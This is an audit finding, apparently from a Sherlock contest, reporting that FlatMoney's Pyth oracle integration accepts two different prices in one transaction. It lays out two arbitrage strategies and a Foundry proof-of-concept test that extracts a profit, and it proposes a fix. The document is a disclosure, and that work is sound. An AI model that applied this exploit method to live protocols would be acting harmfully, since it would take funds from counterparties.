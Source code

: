 Droll Ash Cricket

high

# Oracle can return different prices in same transaction

## Summary

The Pyth network oracle contract allows to submit and read two different prices in the same transaction. This can be used to create arbitrage opportunities that can make a profit with no risk at the expense of users on the other side of the trade.

## Vulnerability Detail

`OracleModule.sol` uses Pyth network as the primary source of price feeds. This oracle works in the following way:

- A dedicated network keeps track of the latest price consensus, together with the timestamp.
- This data is queried off-chain and submitted to the on-chain oracle.
- It is checked that the data submitted is valid and the new price data is stored.
- New requests for the latest price will now return the data submitted until a more recent price is submitted.

One thing to note is that the Pyth network is constantly updating the latest price (every 400ms), so when a new price is submitted on-chain it is not necessary that the price is the latest one. Otherwise, the process of querying the data off-chain, building the transaction, and submitting it on-chain would be required to be done with a latency of less than 400ms, which is not feasible. This makes it possible to submit two different prices in the same transaction and, thus, fetch two different prices in the same transaction.

This can be used to create some arbitrage opportunities that can make a profit with no risk. 

### How this can be exploited

An example of how this can be exploited, and showed in the PoC, would be:
- Create a small leverage position.
- Announce an adjustment order to increase the size of the position by some amount.
- In the same block, announce a limit close order.
- After the minimum execution time has elapsed, retrieve two prices from the Pyth oracle where the second price is higher than the first one.
- Execute the adjustment order sending the first price.
- Execute the limit close order sending the second price.

The result is approximately a profit of

```shell
adjustmentSize * (secondPrice - firstPrice) - (adjustmentSize * tradeFees * 2)
```

> Note: For simplicity, we do not take into account the initial size of the position, which in any case can be insignificant compared to the adjustment size. The keeper fee is also not included, as is the owner of the position that is executing the orders.

The following things are required to make a profit out of this attack:
- Submit the orders before other keepers. This can be easily achieved, as there are not always enough incentives to execute the orders as soon as possible.
- Obtain a positive delta between two prices in the time frame where the orders are executable that is greater than twice the trade fees. This can be very feasible, especially in moments of high volatility. Note also, that this requirement can be lowered to a delta greater than once the trade fees if we take into account that there is currently [another vulnerability](https://github.com/sherlock-audit/2023-12-flatmoney-shaka0x/issues/2) that allows to avoid paying fees for the limit order.

In the case of not being able to obtain the required delta or observing that a keeper has already submitted a transaction to execute them before the delta is obtained, the user can simply cancel the limit order and will have just the adjustment order executed.

Another possible strategy would pass through the following steps:
- Create a leverage position.
- Announce another leverage position with the same size.
- In the same block, announce a limit close order.
- After the minimum execution time has elapsed, retrieve two prices from the Pyth oracle where the second price is lower than the first one.
- Execute the limit close order sending the first price.
- Execute the open order sending the second price.

The result in this case is having a position with the same size as the original one, but having either lowered the `position.lastPrice` or getting a profit from the original position, depending on how the price has moved since the original position was opened.

## Proof of concept

<details>

<summary>Pyth network multiple submissions</summary>

We can find proof that it is possible to submit and read two different prices in the same transaction [here](https://basescan.org/tx/0x0e0c22e5996ae58bbff806eba6d51e8fc773a3598ef0e0a359432e08f0b51b95). In this transaction `updatePriceFeeds` is called with two different prices. After each call the current price is fetched and an event is emitted with the price and timestamp received. As we can see, the values fetched are different for each query of the price.

```js
Address 0x8250f4af4b972684f7b336503e2d6dfedeb1487a
Name    PriceFeedUpdate (index_topic_1 bytes32 id, uint64 publishTime, int64 price, uint64 conf)
Topics  0 0xd06a6b7f4918494b3719217d1802786c1f5112a6c1d88fe2cfec00b4584f6aec
        1 FF61491A931112DDF1BD8147CD1B641375F79F5825126D665480874634FD0ACE
Data    publishTime: 1706358779
        price: 226646416525
        conf: 115941591

Address 0xbf668dadb9cb8934468fcba6103fb42bb50f31ec
Topics  0 0x734558db0ee3a7f77fb28b877f9d617525904e6dad1559f727ec93aa06370866
Data    226646416525
        1706358779

Address 0x8250f4af4b972684f7b336503e2d6dfedeb1487a
Name    PriceFeedUpdate (index_topic_1 bytes32 id, uint64 publishTime, int64 price, uint64 conf)View Source
Topics  0 0xd06a6b7f4918494b3719217d1802786c1f5112a6c1d88fe2cfec00b4584f6aec
        1 FF61491A931112DDF1BD8147CD1B641375F79F5825126D665480874634FD0ACE
Data    publishTime: 1706358790
        price: 226649088828
        conf: 119840116

Address 0xbf668dadb9cb8934468fcba6103fb42bb50f31ec
Topics  0 0x734558db0ee3a7f77fb28b877f9d617525904e6dad1559f727ec93aa06370866
Data    226649088828
        1706358790
```

</details>

<details>

<summary>Arbitrage example</summary>

Add the following function to the `OracleTest` contract and run `forge test --mt testMultiplePricesInSameTx -vv`:

```solidity
function testMultiplePricesInSameTx() public {
        // Setup
        vm.startPrank(admin);
        leverageModProxy.setLevTradingFee(0.001e18); // 0.1%
        uint256 collateralPrice = 1000e8;
        setWethPrice(collateralPrice);
        announceAndExecuteDeposit({
                traderAccount: bob,
                keeperAccount: keeper,
                depositAmount: 10000e18,
                oraclePrice: collateralPrice,
                keeperFeeAmount: 0
        });
        uint256 aliceCollateralBalanceBefore = WETH.balanceOf(alice);

        // Create small leverage position
        uint256 initialMargin = 0.05e18;
        uint256 initialSize = 0.1e18;
        uint256 tokenId = announceAndExecuteLeverageOpen({
                traderAccount: alice,
                keeperAccount: keeper,
                margin: initialMargin,
                additionalSize: initialSize,
                oraclePrice: collateralPrice,
                keeperFeeAmount: 0
        });

        // Announce leverage adjustment
        announceAdjustLeverage({
                traderAccount: alice,
                tokenId: tokenId,
                marginAdjustment: 100e18,
                additionalSizeAdjustment: 2400e18,
                keeperFeeAmount: 0
        });

        // Anounce limit order in the same block
        vm.startPrank(alice);
        limitOrderProxy.announceLimitOrder({
                tokenId: tokenId,
                priceLowerThreshold: 0,
                priceUpperThreshold: 1 // executable at any price
        });

        // Wait for the orders to be executable
        skip(vaultProxy.minExecutabilityAge());
        bytes[] memory priceUpdateData1 = getPriceUpdateData(collateralPrice);
        // Price increases slightly after one second
        skip(1);
        bytes[] memory priceUpdateData2 = getPriceUpdateData(collateralPrice + 1.2e8);

        // Execute the adjustment with the lower price and the limit order with the higher price
        delayedOrderProxy.executeOrder{value: 1}(alice, priceUpdateData1);
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData2);

        uint256 aliceCollateralBalanceAfter = WETH.balanceOf(alice);
        if (aliceCollateralBalanceAfter < aliceCollateralBalanceBefore) {
                console2.log("loss: %s", aliceCollateralBalanceBefore - aliceCollateralBalanceAfter);
        } else {
                console2.log("profit: %s", aliceCollateralBalanceAfter - aliceCollateralBalanceBefore);
        }
}
```

Console output:

```js
[PASS] testMultiplePricesInSameTx() (gas: 2351256)
Logs:
  profit: 475467998401917697

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.67ms
```
</details>

## Impact

Different oracle prices can be fetched in the same transaction, which can be used to create arbitrage opportunities that can make a profit with no risk at the expense of users on the other side of the trade.

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/OracleModule.sol#L69

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/OracleModule.sol#L167

## Tool used

Manual Review

## Recommendation

```diff
File: OracleModule.sol
    FlatcoinStructs.OffchainOracle public offchainOracle; // Offchain Pyth network oracle

+   uint256 public lastOffchainUpdate;

    (...)

    function updatePythPrice(address sender, bytes[] calldata priceUpdateData) external payable nonReentrant {
+       if (lastOffchainUpdate >= block.timestamp) return;
+       lastOffchainUpdate = block.timestamp;
+
        // Get fee amount to pay to Pyth
        uint256 fee = offchainOracle.oracleContract.getUpdateFee(priceUpdateData);
```

